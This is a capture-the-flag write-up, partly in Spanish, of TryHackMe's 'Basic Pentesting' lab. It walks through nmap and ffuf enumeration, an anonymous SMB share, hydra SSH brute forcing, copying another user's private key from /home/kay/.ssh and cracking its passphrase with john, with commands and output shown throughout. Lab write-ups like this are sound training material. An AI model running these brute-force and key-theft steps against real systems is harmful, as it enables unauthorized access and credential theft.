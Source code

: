 # Basic Pentesting — Writeup

**Fecha:** 20-09-2025\
**Plataforma:** TryHackMe

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeration (nmap)

**Command**

```bash
nmap -sV --open $IP
```

**Comment:** `-sV` detecta versiones de servicios. 

**Result**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Summary**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Web Enumeration (ffuf)

**Command**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comment:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Result**
```bash
# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Relevant result**

* `/development`

---

## Smb — anonymous share

**Enumeration**

```bash
smbclient -L //$IP
```

**Result**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```

**Relevant Result**
* Share accesible: `Anonymous (Disk)`

**Connection**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comment:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Foothold

**Brute Force SSH (user: jan)**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comment:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Result**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

**Private Key**

```bash
ssh jan@$IP
# introducir clave de usuario
jan@$IP cat /home/kay/.ssh/id_rsa
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comment:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Lateral Movement

**Cracking passphrase**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Login Kay**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```

